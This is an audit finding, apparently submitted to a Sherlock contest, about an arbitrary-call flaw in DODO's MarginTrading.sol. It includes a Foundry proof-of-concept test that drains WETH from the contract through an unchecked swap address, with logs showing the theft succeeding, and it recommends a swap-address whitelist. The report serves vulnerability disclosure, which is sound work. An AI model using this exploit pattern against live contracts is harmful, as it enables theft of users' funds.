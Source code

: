 jprod15

medium

# Arbitrary call in MarginTrading.sol that allows AllowedProxy to steal tokens

## Summary
Due to the lack of checking of _swapAddress in _opentrade and _closetrade, AllowedProxy can make arbitrary calls in the contract and steal funds
## Vulnerability Detail

https://github.com/sherlock-audit/2023-05-dodo/blob/main/dodo-margin-trading-contracts/contracts/marginTrading/MarginTrading.sol#L106

https://github.com/sherlock-audit/2023-05-dodo/blob/main/dodo-margin-trading-contracts/contracts/marginTrading/MarginTrading.sol#L149

https://github.com/sherlock-audit/2023-05-dodo/blob/main/dodo-margin-trading-contracts/contracts/marginTrading/MarginTrading.sol#L162

https://github.com/sherlock-audit/2023-05-dodo/blob/main/dodo-margin-trading-contracts/contracts/marginTrading/MarginTrading.sol#L270

run this in MarginTrading.t.sol

      function testExecuteFlashLoansOpen_steal_tokens() public {
        faucet(address(dai), user1, 100 ether);
        faucetWeth(address(lendingPoolV2), 10000 ether);
        uint256 depositAmt = 100 ether;
        uint256 borrowAmt = 1 ether;
        vm.startPrank(user1);
        address _marginTrading = createMarginTradingContract();
         vm.stopPrank();
        faucetWeth(_marginTrading, 100 ether);//@audit-info tokens weth in contract _marginTrading
        vm.startPrank(user1);
  
        // 组装 swap参数
        //@audit-info arbitrary call
       bytes memory swapParams 
        =abi.encodeWithSignature("transfer(address,uint256)",user1,weth.balanceOf(_marginTrading) - 1 ether);
        bytes memory executeParams;
        //组装执行参数
        {
            address[] memory _withdrawAssets = new address[](1);
            uint256[] memory _withdrawAmounts = new uint256[](1);
            uint256[] memory _rateMode = new uint256[](1);
            address[] memory _debtTokens = new address[](1);
            address[] memory _swapApproveToken = new address[](1);
            _swapApproveToken[0] = address(weth);
            address[] memory _tradeAssets = new address[](1);
            _tradeAssets[0] = address(dai);
            executeParams = encodeExecuteParams(
                1,
                address(weth),//@audit-info  _swapAddress is supposed to be Router, but due to the vulnerability, it can be set to weth token
                address(dodoApprove),
                _swapApproveToken,
                swapParams,
                _tradeAssets,
                _withdrawAssets,
                _withdrawAmounts,
                _rateMode,
                _debtTokens
            );
        }
        address[] memory _assets = new address[](1);
        _assets[0] = address(weth);
        uint256[] memory _amounts = new uint256[](1);
        _amounts[0] = borrowAmt;
        uint256[] memory _modes = new uint256[](1);
        _modes[0] = 1;
        address _mainToken = address(weth);
        // 先存款
        marginTradingFactory.depositMarginTradingERC20(_marginTrading, address(dai), depositAmt, true, 1);
        //再执行
         console.log("    ");
         console.log("user1 weth before balance:%d",weth.balanceOf(user1));
         console.log("_marginTrading weth balance:%d",weth.balanceOf(_marginTrading));
        IMarginTrading(_marginTrading).executeFlashLoans(_assets, _amounts, _modes, _mainToken, executeParams);
        vm.stopPrank();
        sinkUserTokenBalanceV2(_marginTrading);
        assertEq(wethDebtToken.balanceOf(_marginTrading), 1 ether);
        console.log("user1 weth after balance:%d",weth.balanceOf(user1));
        console.log("_marginTrading weth balance:%d",weth.balanceOf(_marginTrading));
    }
the resul 

            Running 1 test for test/marginTrading/MarginTrading.t.sol:MarginTradingTest
            [PASS] testExecuteFlashLoansOpen_steal_tokens() (gas: 611016)
            Logs:

            user1 weth before balance:0
            _marginTrading weth balance:100000000000000000000
            dai balance: 0
            weth balance: 2
            daiAtoken balance: 100
            wethAtoken balance: 0
            daiDebtToken balance: 0
            wethDebtToken balance: 1
            user1 weth after balance:99000000000000000000
            _marginTrading weth balance:2000000000000000000

            Test result: ok. 1 passed; 0 failed; finished in 771.06ms


## Impact
https://github.com/sherlock-audit/2023-05-dodo/blob/main/dodo-margin-trading-contracts/contracts/marginTrading/MarginTrading.sol#L203-L214

only user should be able to transfer tokens 
## Code Snippet
https://github.com/sherlock-audit/2023-05-dodo/blob/main/dodo-margin-trading-contracts/contracts/marginTrading/MarginTrading.sol#L106

https://github.com/sherlock-audit/2023-05-dodo/blob/main/dodo-margin-trading-contracts/contracts/marginTrading/MarginTrading.sol#L149

https://github.com/sherlock-audit/2023-05-dodo/blob/main/dodo-margin-trading-contracts/contracts/marginTrading/MarginTrading.sol#L162

https://github.com/sherlock-audit/2023-05-dodo/blob/main/dodo-margin-trading-contracts/contracts/marginTrading/MarginTrading.sol#L270
## Tool used

Manual Review

## Recommendation
add a whitelist of  _swapAddress